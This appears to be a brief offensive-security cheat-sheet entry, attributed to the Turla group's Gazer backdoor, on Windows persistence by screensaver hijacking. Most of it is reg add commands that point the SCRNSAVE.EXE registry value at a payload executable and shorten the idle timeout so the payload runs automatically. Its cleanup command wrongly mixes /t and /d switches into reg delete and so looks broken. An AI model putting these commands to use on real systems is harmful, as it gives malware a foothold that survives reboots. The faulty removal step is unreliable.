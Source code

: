 
> [!NOTE] Gazer - backdoor of Turla Group

Changing the default screensaver of the windows machines

Setup:

```sh
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "c:\pers\payload.exe" /f
```

```sh
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "10" /f
```


Supprimer:

```http
reg delete "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "" /f
```


